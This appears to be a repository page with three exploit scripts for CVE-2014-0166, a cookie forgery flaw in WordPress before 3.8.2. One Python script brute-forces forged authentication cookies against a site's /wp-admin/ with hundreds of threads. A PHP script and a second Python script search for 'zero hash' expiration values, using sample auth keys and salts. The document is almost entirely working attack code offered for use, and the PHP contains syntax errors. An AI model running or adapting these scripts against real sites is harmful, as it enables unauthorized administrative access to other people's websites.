 INFO
----

WordPress \< 3.8.2 cookie forgery vulnerability

### cookieForger.py

    #!/usr/bin/env python

    """
    This script is the EXP of CVE-2014-0166.
    By varying the expiration value of the cookie, an attacker can find a 'zero hash' to forge a valid cookie.
    However, on average, we need 300 million requets to find a 'zero hash'.
    Therefore I wrote this multithread script.

    Details: http://www.ettack.org/wordpress-cookie-forgery/
    Author: Ettack
    Email: ettack@gmail.com
    """

    import requests
    import hmac
    import threading
    from hashlib import md5
    from sys import stdout
    from time import sleep,ctime,gmtime,time
    from os import _exit

    initnum = 0     #Set the initial value here while performing distributed computing.
    threadNum = 500
    errTolerance = 0    #If ErrorRequests/AllRequests > errTolerance, then decrease threads number

    lock = threading.Lock()

    url = 'http://test.com'
    user = 'ettack'


    expiration = 1400000000+initnum
    cnt = 0+initnum


    cookie_k = 'wordpress_' + md5(url).hexdigest()

    def testCookie(url,user,expr):
        global errcnt
        cookie_v = user + '|' + str(expr) + '|0'
        cookie = {cookie_k:cookie_v}
        try:
            r = requests.head(url + '/wp-admin/',cookies=cookie)
        except requests.exceptions.ConnectionError:
            errcnt += 1
            # print "Connection ERROR occured in %s"%(threading.current_thread())
            sleep(8)
            return "Err"
        statcode = r.status_code
        if statcode == 200:
            return cookie
        if statcode != 302:
            errcnt += 1
            sleep(5)
            return "Err"
        return False


    def action():
        lock.acquire()
        global expiration,cnt
        expiration += 1
        cnt += 1
        stdout.flush()
        stdout.write("\r%s"%(cnt))
        lock.release()
        try:
            #Copy expiration value to expr.As expiration would be increased by other threads.
            expr = expiration
            #Loop until no error
            while True:
                result = testCookie(url,user,expr)
                if result != "Err": break
        except KeyboardInterrupt:
            print "Interrupted at %s"%(expiration)
            _exit(0)
        except Exception,e:
            print e

        #Cookie found! Output to screen and file (wp_result). Output consumed time as well.
        if result != False:
            print "\n\nCongratulations!!! Found valid cookie:"
            print str(result)
            dtime = time()-stime
            timestr = gmtime(dtime)
            print "\nRunning time: %sd %sh %sm %ss"%(timestr.tm_mday-1,timestr.tm_hour,timestr.tm_min,timestr.tm_sec)
            with open("wp_result","w") as fp:
                fp.write(str(result))
                fp.close()
            _exit(0)


    stime = time()
    print "Start at %s"%(ctime())
    print "Guessing with %d threads...\n"%(threadNum)

    #Main part of guessing program
    while True:
        threads = []
        errcnt = 0

        for i in xrange(threadNum):
            t = threading.Thread(target = action)
            threads.append(t)
            t.start()

        for t in threads:
            t.join()

        #Adjust threads number
        errRate = float(errcnt)/threadNum
        if errRate > errTolerance:
            newThreadNum = int(threadNum * (1-0.5*errRate))
            print "\nToo many retries (%d/%d). Automatically decrease to %d threads!"%(errcnt,threadNum+errcnt,newThreadNum)
            threadNum = newThreadNum
        #Log process to wp_log
        with open("wp_log","w") as fp:
            fp.write(str(cnt))
            fp.close()

### wp_zero_cookie_generator.php

    <?php
    /**
    * A script to verify (local) WordPress < 3.8.2 cookie forgery vulnerability
    * Author:   Ettack
    * Email:    ettack@gmail.com
    */

    $site_url = 'http://www.ettack.org';    //Used for generating cookie key: 'wordpress_'+hash($site_url)
    $user = 'ettack';
    $pass_frag = '1234';    //Fragment of your password hash. $pass_frag = substr($user->user_pass, 8, 4)
    $scheme = '';

    $unit = 100000000;
    $init = empty($argv[1])?0:$argv[1]*$unit;       //Start point. e.g. 2 for 200000000
    $exptime = 1400000000+$init;
    $cnt = 0+$init;
    $max = $init + $unit;

    function gen_cookie($site_url,$user,$exptime,$pass_frag,$scheme) {
        $lk = 'E..y-UBzte>Ddu^pF~kFsCPd6zD)%gar?0lBPiki9Kg_M`^<b3&`PtowYZ6V/1sU';   //$auth_key configured in wp-config.php
        $ls = '()_m._cRk}-Uj|tZ9GEZXJFJ}Ab+AT}:T!ug{I*o`PmmJ`4~/ry^:y0H$g:.fpm}';   //$auth_salt configured in wp-config.php

        $key = hash_hmac('md5',$user.$pass_frag.'|'.$exptime,$lk.$ls);
        $hash = hash_hmac('md5',$user.'|'.$exptime,$key);

        return $hash;
    }


    while ($cnt<$max) {
        $cnt++;
        $exptime++;
        if ($cnt % 10000 == 0) {
            echo "\rTrying:  ".$exptime;    //real-time status output
        }
        $hs = gen_cookie($site_url,$user,$exptime,$pass_frag,$scheme);
        //when "zero hash" found, output and exit
        if ($hs == "0") {
            echo "\n\nAfter ".$cnt." tries, we found: \n";
            echo "Expiration: ".$exptime."\n";
            echo "Hash: ".$hs."\n";
            echo "Cookie Key: ".'wordpress'.$scheme.md5($site_url).'\n'
            echo "Cookie Value: ".$user.'|'.$exptime.'|'.$hs.'\n'
            break;
        }
    }
    ?>

### zeroCather.py

    import re,hmac
    from multiprocessing import Process,Value
    from sys import stdout


    user = 'ettack'
    pass_frag = 'u5dr'

    pnum = 8
    exprstart = 1400000000

    def gen_cookie(user,exptime,pass_frag):
        lk = 'dBr|SFMq6`VaOFKw>r~^Npl(-z &OA(9{(W &(?2h&I}v1!V+Kx.m|uV-:z89L72'
        ls = 'a=ec%X>I>#/@z>b);!*Qk*!&zS)@3[wW+o+2@gFz5xK$v&P@kV@I(YkJV4i9<Qp6'
        key = hmac.new(lk+ls,user+pass_frag+'|'+str(exptime)).hexdigest()
        hs = hmac.new(key,user+'|'+str(exptime)).hexdigest()
        return hs

    def loop(tid,flag):
        exptime = exprstart+tid
        while flag.value==0:
            if (exptime % 10000 == 0):
                stdout.flush()
                stdout.write("\rTrying:  "+str(exptime))

            hs = gen_cookie(user,exptime,pass_frag)

            if (re.search('^0+e\d*$',hs)):
                print "\n\nAfter "+str(exptime-exprstart)+" tries, we found: \n"
                print "Expiration: "+str(exptime)+"\n"
                print "Hash: "+hs+"\n"
                flag.value = 1

            exptime += pnum


    if __name__ == '__main__':
        processes = []
        flag = Value('i',0)
        for i in xrange(pnum):
            p = Process(target=loop,args=(i,flag))
            processes.append(p)
            p.start()

        for p in processes:
            p.join()